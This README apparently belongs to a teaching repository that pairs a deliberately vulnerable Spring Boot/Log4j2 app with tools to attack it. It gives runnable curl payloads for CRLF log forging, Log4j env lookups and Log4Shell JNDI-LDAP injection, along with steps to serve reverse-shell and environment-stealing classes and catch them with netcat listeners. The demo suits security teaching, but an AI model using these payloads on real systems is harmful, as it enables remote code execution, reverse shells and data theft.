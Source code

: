 # Log Injection with Spring Boot and Log4J2

## Description

Exemple d'application java vulnérable à l'attaque [Log4Shell](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/).

Le repo contient :
- Une application Java **DemoApplication** vulnérable (plus particulièrement la classe *HelloController.java*)
- Des fichiers (`evil/ldap/`) permettant d'attaquer l'application *DemoApplication* :
  - **marshalsec\*.jar** : permet de simuler un serveur LDAP qui sera utilisé pour injecter le code malveillant dans l'application
  - plusieurs classes de code malveillant (à compiler), permettant chacune une attaque différente :
    - **OpenKeyPassExploit.java** : attaque permettant de lancer l'application OpenKeyPass (il faut donc qu'elle soit installée sur le poste)
    - **ReverseShellExploit.java** : attaque permettant de lancer un _reverse shell_
    - **StealEnvUserNameExploit.java** : attaque permettant de récupérer les variables d'environnement de l'utilisateur
  - **server.py** : serveur python multi-threads permettant de lancer un serveur LDAP (Marshalsec) ainsi qu'un serveur web (pour héberger les classes malveillantes : _OpenKeyPassExploit_, _ReverseShellExploit_ ou _StealEnvUserNameExploit_)
- Un serveur python **receiver/server.py** permettant de **recevoir** les informations sur le port **8001** (par exemple pour l'attaque _StealEnvUserNameExploit_), mais peut être remplacé par une commande _netcat_.

## Usage

Testé avec Java 17.

- Run

```shell
./gradlew bootRun
```

- Request

```shell
curl http://localhost:8080/\?name\=Frodon
```

## Hack

### Using CRLF injection

```shell
curl http://localhost:8080/\?name\=Marty%0d%0a2023-09-08%2010%3A40%3A01.108%20DEBUG%202175773%20---%20%5Bnio-8080-exec-1%5D%20n.e.d.HelloController%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3A%20You%20have%20been%20pwed%0A
```

### Using date lookup

Date lookup ``${date:yyyyMMdd-HHmmss}``:

```shell
curl http://localhost:8080/\?name\=%24%7Bdate%3AyyyyMMdd-HHmmss%7D
```

### Using env lookup

Env lookup ``${env:USER}``:

```shell
curl http://localhost:8080/\?name\=%24%7Benv%3AUSER%7D
```

### Using JNDI Injection + LDAP (OpenKeyPassExploit)

- Run the evil ldap server

```shell
javac evil/ldap/OpenKeyPassExploit.java
python evil/ldap/server.py OpenKeyPassExploit
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (StealEnvUserNameExploit)

- Run the evil ldap & receiver server

```shell
javac evil/ldap/StealEnvUserNameExploit.java
python evil/ldap/server.py StealEnvUserNameExploit
python evil/receiver/server.py # ou : nc -lv 8001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```

### Using JNDI Injection + LDAP (ReverseShellExploit)

- Run the evil ldap

```shell
javac evil/ldap/ReverseShellExploit.java
python evil/ldap/server.py ReverseShellExploit
```

- Listening for incoming (evil)

```shell
nc -lv 9001
```

- JNDI LDAP lookup

```shell
curl http://localhost:8080/\?name\=%24%7Bjndi%3Aldap%3A%2F%2Flocalhost%3A1389%2FanyString%7D
```
